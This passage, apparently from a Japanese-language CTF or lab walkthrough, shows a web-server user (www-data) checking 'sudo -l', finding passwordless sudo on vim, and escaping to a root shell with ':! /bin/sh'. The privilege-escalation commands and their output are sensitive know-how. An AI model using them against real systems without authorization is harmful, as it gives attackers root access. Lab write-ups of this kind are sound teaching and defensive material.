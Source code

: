 </div>

#### sudo可能なコマンドを確認

　現在のユーザでsudo可能なコマンド一覧を確認するために「`sudo -l`」コマンドを実行します。  

<div class="md-code" style="width:100%">

```
$ sudo -l
Matching Defaults entries for www-data on 533e4e3fac01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 533e4e3fac01:
    (root) NOPASSWD: /usr/bin/vim /var/www/html/documents
```

</div>

　「`/usr/bin/vim /var/www/html/documents`」コマンドが `sudo` で実行することが可能であることが分かりました。

　vim をsudoで動作させることでroot権限のシェルを取得する方法があるのでこの方法を活用することにします。

[https://web-wilke.de/use-vi-vim-for-privilege-escalation/:title]

#### Vim経由でroot権限のシェルを取得

　Vimが起動したら「`:! /bin/sh`」と入力し、[Enter]します。

<div class="md-code" style="width:100%">

```
$ sudo /usr/bin/vim /var/www/html/documents
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'
```

</div>


<div class="md-code" style="width:100%">

```
" ============================================================================
" Netrw Directory Listing                                        (netrw v170)
"   /var/www/html/documents
"   Sorted by      name
"   Sort sequence: [\/]$,\<core\%(\.\d\+\)\=\>,\.h$,\.c$,\.cpp$,\~\=\*$,*,\.o$,\
"   Quick Help: <F1>:help  -:go up dir  D:delete  R:rename  s:sort-by  x:special
" ==============================================================================
:! /bin/sh
./
payslips/
reimbursments/
~
~
```